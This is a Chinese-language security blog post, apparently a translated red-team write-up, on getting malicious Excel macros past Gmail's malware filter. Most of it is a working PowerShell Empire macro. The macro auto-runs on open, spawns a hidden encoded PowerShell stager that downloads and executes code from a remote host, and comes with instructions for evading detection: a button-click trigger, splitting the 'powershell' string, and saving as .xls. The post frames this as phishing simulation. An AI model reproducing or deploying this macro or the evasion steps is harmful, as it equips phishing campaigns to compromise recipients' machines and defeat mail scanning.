 > 原文链接: https://www.anquanke.com//post/id/84242 


# 使用恶意宏签名绕过Gmail全过程


                                阅读量   
                                **101471**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t01350d22dede19a151.jpg)](https://p5.ssl.qhimg.com/t01350d22dede19a151.jpg)

**Excel电子表格中的恶意宏指令是网络钓鱼攻击最常使用的方法之一。如果陷阱设置的足够诱人，而一些用户又毫无戒心，他们就很有可能下载恶意文件并启用宏指令，而这可能会导致攻击者在他们的系统上自动执行任意代码。**

 

        为了模拟这种攻击者的钓鱼活动，我们在SecureState工作的研究员通常会利用来自[PowerShell Empire](https://github.com/PowerShellEmpire/Empire)宏指令的相关代码，通过利用使用[King Phisher](https://github.com/securestate/king-phisher)发送的钓鱼信息来访问目标系统的代理。

使用开源软件套件来完成这些的缺点之一是很有可能在运行过程中被劫持。但对我们来说幸运的是，这个障碍其实相当容易被绕过，即便是现在最多人使用的电子邮件服务商所提供的Gmail也可以实现。

 

 [PowerShell Empire](https://github.com/PowerShellEmpire/Empire)的一键宏生成的输出代码如下：

```
Sub AutoOpen()
    Debugging
End Sub
Sub Document_Open()
    Debugging
End Sub
Public Function Debugging() As Variant
    Dim Str As String
    Str = "powershell.exe -NoP -sta -NonI -W Hidden -Enc JAB3"
    Str = Str + "AGMAPQBOAEUAdwAtAE8AQgBqAGUAYwB0ACAAUwB5AHMAdABlAE"
    Str = Str + "0ALgBOAGUAVAAuAFcAZQBiAEMAbABpAGUAbgBUADsAJAB1AD0A"
    Str = Str + "JwBNAG8AegBpAGwAbABhAC8ANQAuADAAIAAoAFcAaQBuAGQAbw"
    Str = Str + "B3AHMAIABOAFQAIAA2AC4AMQA7ACAAVwBPAFcANgA0ADsAIABU"
    Str = Str + "AHIAaQBkAGUAbgB0AC8ANwAuADAAOwAgAHIAdgA6ADEAMQAuAD"
    Str = Str + "AAKQAgAGwAaQBrAGUAIABHAGUAYwBrAG8AJwA7ACQAVwBDAC4A"
    Str = Str + "SABFAGEAZABlAHIAcwAuAEEARABEACgAJwBVAHMAZQByAC0AQQ"
    Str = Str + "BnAGUAbgB0ACcALAAkAHUAKQA7ACQAdwBDAC4AUAByAG8AeABZ"
    Str = Str + "ACAAPQAgAFsAUwBZAFMAVABFAE0ALgBOAGUAVAAuAFcAZQBiAF"
    Str = Str + "IAZQBxAFUAZQBTAHQAXQA6ADoARABlAGYAYQBVAEwAdABXAEUA"
    Str = Str + "YgBQAFIATwBYAHkAOwAkAFcAQwAuAFAAcgBvAFgAeQAuAEMAUg"
    Str = Str + "BFAGQAZQBuAFQAaQBhAEwAcwAgAD0AIABbAFMAeQBzAFQAZQBt"
    Str = Str + "AC4ATgBFAFQALgBDAHIAZQBEAEUATgBUAGkAYQBsAEMAYQBDAG"
    Str = Str + "gARQBdADoAOgBEAEUARgBhAHUAbABUAE4AZQBUAFcAbwBSAGsA"
    Str = Str + "QwByAGUARABlAG4AVABpAEEAbABzADsAJABLAD0AJwBAAC0ASw"
    Str = Str + "BRAFAAPABEAHUAZAAyADYAMQBcAEgAKgBsAFsAVgBBACUAdwB5"
    Str = Str + "AEUATwBKAHEAXgBaAHAAOwAoAGgAJwA7ACQASQA9ADAAOwBbAE"
    Str = Str + "MASABBAFIAWwBdAF0AJABCAD0AKABbAGMASABhAFIAWwBdAF0A"
    Str = Str + "KAAkAHcAYwAuAEQAbwB3AE4AbABPAEEARABTAHQAcgBpAE4AZw"
    Str = Str + "AoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMwAu"
    Str = Str + "ADEAMgA6ADgAMAA4ADEALwBpAG4AZABlAHgALgBhAHMAcAAiAC"
    Str = Str + "kAKQApAHwAJQB7ACQAXwAtAGIAWABPAFIAJABLAFsAJABJACsA"
    Str = Str + "KwAlACQAawAuAEwAZQBOAGcAdABIAF0AfQA7AEkARQBYACAAKA"
    Str = Str + "AkAEIALQBqAE8ASQBOACcAJwApAA=="
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\" &amp;   strComputer &amp; "rootcimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig =   objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\" &amp;   strComputer &amp; "rootcimv2:Win32_Process")
    objProcess.Create Str, Null, objConfig, intProcessID
End Function
```

来自GitHub的[malicious-macro.vba](https://gist.github.com/benichmt1/b01b7e9c74f56765bca987bfb5e97462#file-malicious-macro-vba) 

当我们把这段代码粘贴到工作簿时，Excel文档就变成了恶意文件。 Gmail会立即识别出它并作出如下反应（检测出病毒），且不允许你发送该邮件：

 

[![](https://p1.ssl.qhimg.com/t0100d6a7b7562ae145.png)](https://p1.ssl.qhimg.com/t0100d6a7b7562ae145.png)

在深入调查之后，我假设出Gmail分辨合法附件和恶意附件的方法。其实仔细查看不难发现这些有效载荷被进行了编码，但谷歌仍然能够把它识别成危险文件。

我的猜测是，该恶意工作簿文件分为两个主要部分：

1.触发“打开工作簿”（workbook open）的宏指令；

2.包含字符串“powershell”的宏指令。

 

这两种保护措施都很容易被攻破。为了绕过第一次检查，我在一个Button_Click事件上调用了恶意函数。这需要用户实际点击一个按钮来实现，但是如果你制作了一个足够诱人的页面引诱用户点击它，这应该是没有问题的。

至于第二次检测，我能够通过PowerShell轻松搞定！通过把字符串拆分成不同行，Gmail就无法检测到这个词，也就不能把它归类为恶意文件了。

为了扩大兼容性到最大限度，我把这个文件保存为2003-2007 workbook (.xls)格式，以避开可怕的.xslm扩展名。

 

在进行了一系列的简单调整之后，我已经可以轻松拿下很多不同的邮箱服务器了 。

所以，请好好检查一下你的邮箱的过滤规则，看看它们有多么容易被绕过！

[![](https://p5.ssl.qhimg.com/t012ea56c548c80acde.png)](https://p5.ssl.qhimg.com/t012ea56c548c80acde.png)

下图为恶意宏指令的片段展示：

[![](https://p4.ssl.qhimg.com/t01e5c7001ca4beb77f.png)](https://p4.ssl.qhimg.com/t01e5c7001ca4beb77f.png)
